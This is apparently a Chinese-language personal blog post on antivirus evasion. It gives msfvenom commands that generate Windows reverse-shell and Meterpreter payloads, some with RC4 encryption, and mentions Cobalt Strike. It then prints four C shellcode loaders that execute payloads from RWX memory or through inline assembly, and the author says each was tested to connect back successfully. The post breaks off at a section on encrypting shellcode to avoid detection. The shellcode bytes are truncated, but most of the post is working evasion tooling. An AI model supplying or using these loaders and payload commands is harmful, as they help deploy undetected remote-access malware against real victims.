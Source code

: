```yaml
---
title: 免杀学习
date: 2023-02-17 14:47:17
tags: 免杀 
---
```


# 免杀学习

## 什么是shellcode？

Shellcode是一种恶意代码，它试图劫持计算机内存中正在运行的程序的正常流程。然后它会重定向流程，以便执行恶意代码，而不是正常程序，从而为攻击者提供 shell 或实际访问权限。这些通常是低级编程代码形式的信标或有效载荷或结合漏洞利用的机器代码。漏洞利用是成功利用漏洞的低级或本机代码片段。

例如：

```shell
\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e
```

## 如何生成shellcode?

获取shellcode的方法有很多，其中以下两种最常用

1. msfvenom

例如：

```
msfvenom -p windows/shell/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -a x86 -f c

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f raw

msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f dll

msfvenom -p windows/exec cmd=calc.exe -f c

.....
```



2. cobaltstrike

![img](https://image.3001.net/images/20200520/1589979628_5ec529ecaba7a.png!small)



3. and so on.....

## 如何加载shellcode

用代码写个shellcode加载器，可以用C、C++ 、GO、python等语言进行编写

加载器一般分为几步：

* 分配内存
* 将shellcode移动到内存中
* 执行shellcode



下面是利用C语言编写的加载器例子,经过测试这些都是能成功上线的：

1. 动态申请内存:

```c
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")//这个是为了执行exe时不显示cmd窗口

typedef void (_stdcall *CODE)();
unsigned char shellcode[] ="\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52.........";


void main()
{


    PVOID p = NULL;
    p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);//申请内存
    if (p == NULL)
    {
        return;
    }
    memcpy(p, shellcode, sizeof(shellcode));//将shellcode移动到内存中
    
    CODE code = (CODE)p;
    code();//执行shellcode
}
```

![image-20230220111634039](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20230220111634039.png)

2.强制类型转换为函数指针

```c
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")
unsigned char shellcode[] ="\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52........";

void main()
{
   ((void(WINAPI*)(void))&shellcode)();
}
```





3. 嵌入式汇编执行shellcode

```c
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE") ////这句话是关键，设置数据段为可执行
unsigned char shellcode[] ="\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52........";

void main()
{

	    __asm
    {
        
        mov eax, offset shellcode
        jmp eax

    }
}
```

![image-20230220111911749](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20230220111911749.png)

添加伪指令版本：

```c
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE") //设置data段可读可写可执行的权限
unsigned char shellcode[] ="\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52........";

void main()
{

	    __asm
    {
        
        mov eax, offset shellcode
        _emit 0xFF  
        _emit 0xE0

    }
}
```

![image-20230220112038271](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20230220112038271.png)

其他语言版本的加载器就不一一列举了，思想应该都差不多吧

## 对shellcode进行加密

shellcode加密有异或加密、base64加密、aes加密、自定义加解密等几种。异或加密和base64加密也就是最简单的加密，也就是最容易被查杀的两种加密，这里就不考虑了，看看其他的。。。







